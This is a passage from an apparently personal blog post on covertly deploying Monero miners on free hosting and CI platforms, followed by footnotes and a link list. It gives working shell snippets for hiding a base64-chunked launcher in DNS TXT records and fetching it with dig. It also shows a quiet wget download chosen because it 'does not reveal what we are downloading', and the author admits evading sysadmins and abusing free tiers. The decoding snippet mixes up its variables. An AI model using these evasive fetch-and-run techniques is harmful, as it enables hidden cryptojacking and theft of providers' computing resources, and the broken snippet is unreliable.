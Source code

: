 How do we store it? TXT records only support alphanumeric strings, no [NULs], so we have to wrap it into a non null encoding, [base64] satisfies this constraint, and because we are storing _chained_ TXT records, we have to chunk the output, since we are using shell stuff, this is done through the `-w` flag, on busybox such flag used to be absent (or opt-in) on older versions which was annoying, an alternative is to use the encoder bundled with openssl, `openssl enc -base64`.

Now that we know how to store our deployment script we store it with either [cf cli] or manually. How do we pull it? We mentioned that we need bindutils or our own `dig`...after having chosen the serving endpoint, we want to download it, what is available is usually [wget] or [curl], wget is found preinstalled much more often, however busybox only provides tls support with dynamic libraries, so you have to make sure the endpoint is serving http or your utility is `wget` from gnu-utils

```bash
# the wget command
wget -t 2 -T 10 -q -i- -O- > $filename <<< "$digurl"
```

It means try `-t2` times waiting `-T10` seconds being `-q` quiet reading from `-i-` stdin (`$digurl`) and writing to `-O-` stdout (`$filename`). This command does not reveal what we are downloading on a first glance. We are going to be very careful with other shell commands for the same reason, or sticking with shell ([bash]) built-ins where possible. Take also care about where you are downloading your executables, you want to ensure you can execute them, since some mount points, especially in containers and `tmp` paths are `noexec`.
Now that we have our dns querying tool we fetch our records

```bash
dig txt ${record}.${zone} +short +tcp +timeout=3 +retries=0 $dnsserver
```

Flags are self explanatory here, `+short` just means that we are only interested in the data itself, so that we don't have to parse the output. It's important to specify the DNS server, like google (`8.8.8.8`) or cloudflare (`1.1.1.1`) ones because many environments redirect or proxy dns queries to their own dns servers by default.
After having fetched the chunked script we deal with quotes and whitespaces to make it ready for decoding

```bash
data=${data//\"} # remove quotes
data=${data// } # remove whitespace
declare -a ar_data
for l in $data; do
    ar_data[${l:0:1}]=${l:1} # iterate over each line and remove the first characther
done
data=${ar_data[@]} # join all the lines
data=${data// } # ensure joining didn't add whitespace
# decode
launcher=$(echo "$launcher" | $b64 -d -w $chunksize)
```

What if now we _still_ don't have our launcher? DNS is messy, we want a fallback, lets setup a subdomain to fetch the launcher script directly.
Before evaluating our script we want to customize it, with some variables, again lets use a TXT record to store a NAME=VALUE list of variables and parse it. There is also a fallback for variables, cloudflare offers redirects based on URLs, these redirects are served _before_ the destination, so we don't need an endpoint, we just want to configure regex based redirect rules to a fictitious endpoint, what we are interested in are the parameters of the url `?NAME=VALUE&NAME2=VALUE2...`, so that we can parametrize our launcher simply by changing the redirect url, always with attention to quoting and escapes codes


[^adversary]: _the grumpy sysadmin_
[^infoproc]: even though this would break many privacy assumptions, I am sure most of them just peek inside whenever there is a incumbent problem, but this is only a problem for container based runtimes, whereas VMs are pretty much black boxes.
[^monerominer]: the miner built into the monero node got some work to make it more background friendly, but the distribution of xmrig was never focused on background friendliness.
[^difficulty]: some pools offer different difficulties on different connection ports, and tend to align the job difficulty to the miner submitted shares, but the granularity of the proxy was still more convenient, as it would prevent pool [lock-in] \(although we never really switched pools \).
[^configwatch]: it wasn't happy when the config suddenly appeared and disappeared from the file system
[^stratumprotocol]: We don't talk about the [stratum protocol] since we just have to deal with whatever is implemented in _both_ the pool and the miner...which is usually the bare minimum, and possibly with non standard extensions.
[^fullbash]: never go full bash :\)
[^memoryondemand]: I have not explored what happens when a processes loads additional functionality at runtime, as the kernel would look for the address in the memory layout of the executable, which would access the filesystem and possibly causing a crash.
[^freehostinglimits]: Limits are arbitrary, cpu time is less than a second, memory is less than 128M, outbound connections are blocked.
[^cpanelssh]: with a little bit of patience you can also run a full ssh instance over an environment bootstrapped around your cpanel account space, _without_ having access to the cpanel builtin SSH which tends to be disabled by hosting providers.
[^openshift]: openshift went from a 1 year free tier to 3 months to 1 month, starting to require phone authentication, I can guarantee I was not the only one abusing their services.
[^herokucontainers]: Heroku free tier containers are quite generous in resources, they provide 4c/8t (virtual) cpus, plenty of ram and large storage (which however is not persistent and discarded on dyno shutdown).
[^saddrone]: They adde muc strictier registration rules, after a couple of bans, I might have contributed to it.
[cryptocurrencies]: https://en.wikipedia.org/wiki/Cryptocurrency
[ASICS]: https://en.wikipedia.org/wiki/Application-specific_integrated_circuit
[CPU friendly coins]: \stuff/a-few-notes-on-proof-of-work
[miner]: https://github.com/xmrig/xmrig
[another miner]: https://github.com/Bendr0id/xmrigCC
[proxy]: https://github.com/Bendr0id/xmrigcc-proxy
[tunnel]: https://github.com/search?q=tunnel
[somebody]: https://twitter.com/sarahjamielewis
[lost bets]: https://web.archive.org/web/https://twitter.com/SarahJamieLewis/status/1185724467776851968
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[dos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[dig]: https://web.archive.org/web/20201107155737/https://downloads.isc.org/isc/bind9/
[TXT]: https://en.wikipedia.org/wiki/TXT_record
[statically linked]: https://en.wikipedia.org/wiki/Standalone_program
[recommended]: https://www.ietf.org/rfc/rfc6763.txt
[cloudflare]: https://www.cloudflare.com/
[freedns]: https://freedns.afraid.org/
[used to]: https://web.archive.org/save/https://community.cloudflare.com/t/was-there-a-reduction-in-maximum-txt-size
[NULs]: https://en.wikipedia.org/wiki/Null_character
[base64]: https://en.wikipedia.org/wiki/Base64
[curl]: https://curl.se/
[wget]: https://www.gnu.org/software/wget/
[bash]: https://en.wikipedia.org/wiki/Bash_%28Unix_shell%29
[cf cli]: https://web.archive.org/web/20210305071742/https://github.com/cloudflare/cloudflare-go/blob/master/cmd/flarectl/README.md
[trampoline]: https://en.wikipedia.org/wiki/Trampoline_(computing)
[container]: https://en.wikipedia.org/wiki/OS-level_virtualization
[here]: \assets/stuff/bash_functions.txt
[IPC]: https://en.wikipedia.org/wiki/Inter-process_communication
[ulimits]: https://web.archive.org/web/https://linux.die.net/man/5/limits.conf
[ipinfo]: https://ipinfo.io/
[geoip.json]: \assets/stuff/geoip.json
[technical debt]: https://en.wikipedia.org/wiki/Technical_debt
[state machine]: https://en.wikipedia.org/wiki/Finite-state_machine
[proxychains]: https://web.archive.org/web/20210121093409/https://github.com/haad/proxychains
[forward tunnel]: https://web.archive.org/web/20210315094551/https://github.com/ginuerzh/gost
[mining proxy]: https://web.archive.org/web/20201207221231/https://github.com/Snipa22/xmr-node-proxy
[lock-in]: https://en.wikipedia.org/wiki/Vendor_lock-in
[stratum protocol]: https://en.bitcoin.it/wiki/Stratum_mining_protocol
[cdn]: https://en.wikipedia.org/wiki/Content_delivery_network
[aup]: https://en.wikipedia.org/wiki/Acceptable_use_policy
[cpanel]: https://en.wikipedia.org/wiki/CPanel
[cgi]: https://en.wikipedia.org/wiki/Common_Gateway_Interface
[Cloud9]: https://aws.amazon.com/cloud9
[Codeanywhere]: https://web.archive.org/web/20210314172852/https://codeanywhere.com/
[Puppeteer]: https://web.archive.org/web/20210318213139/https://developers.google.com/web/tools/puppeteer
[Openshift]: https://www.openshift.com/
[Heroku]: https://www.heroku.com/
[Bitrise]: https://web.archive.org/web/20210222050951/https://www.bitrise.io/
[Continuousphp]: https://web.archive.org/web/20210310010750/https://continuousphp.com/
[Travis]: https://web.archive.org/web/20210324163536/https://travis-ci.org/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[Wercker]: https://web.archive.org/web/20210308202144/https://app.wercker.com/
[Buddy]: https://web.archive.org/web/20210322133805/https://buddy.works/
[Drone]: https://web.archive.org/web/20210327045555/https://cloud.drone.io/welcome
[Codeship]: https://web.archive.org/web/20210322100629/https://www.cloudbees.com/products/codeship
[Docker-hub]: https://web.archive.org/web/20210322105637/https://hub.docker.com/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[CI]: https://en.wikipedia.org/wiki/Continuous_integration